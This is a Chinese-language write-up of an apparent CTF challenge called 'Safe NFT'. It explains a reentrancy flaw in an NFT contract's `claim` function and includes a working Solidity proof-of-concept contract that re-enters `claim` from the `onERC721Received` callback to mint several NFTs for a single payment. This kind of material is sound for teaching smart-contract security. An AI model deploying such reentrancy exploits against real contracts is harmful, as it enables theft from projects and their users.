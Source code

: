 ## Safe NFT

### 目标

花一份钱领多个 NFT

### 分析

`claim` 方法存在被重入的可能

```solidity
function claim() external {
    require(canClaim[msg.sender], "CANT_MINT");
    _safeMint(msg.sender, totalSupply());
    canClaim[msg.sender] = false;
}
```

在 `_safeMint` 方法内

```solidity
function _safeMint(address to, uint256 tokenId) internal {
    _safeMint(to, tokenId, "");
}

function _safeMint(address to, uint256 tokenId, bytes memory data) internal virtual {
    _mint(to, tokenId);
    ERC721Utils.checkOnERC721Received(_msgSender(), address(0), to, tokenId, data);
}
```

可以看到 `_safeMint` 最后会调用 `ERC721Utils.checkOnERC721Received`。该方法会判断 `to` 地址是否是合约地址，如果是, 则调用合约的 `onERC721Received` 方法。

所以可以写攻击合约用来 `mint` 的接收地址。并在回调方法 `onERC721Received` 再次 `mint`。可以让 `canClaim[msg.sender] = false;` 无法执行到。

### POC

```solidity
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

contract SafeNFTReveiver is IERC721Receiver {
    uint expectMintTotalCount = 5;
    uint mintCount = 0;
    SafeNFT private safeNFT;

    address owner = msg.sender;

    constructor(address _nftAddress) {
        safeNFT = SafeNFT(_nftAddress);
        owner = msg.sender;
    }

    function attack() external payable {
        safeNFT.buyNFT{value: msg.value}();
        safeNFT.claim();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        safeNFT.transferFrom(address(this), owner, tokenId);

        mintCount++;
        if (mintCount < expectMintTotalCount) {
            safeNFT.claim();
        }
        return IERC721Receiver.onERC721Received.selector;
    }
}
```
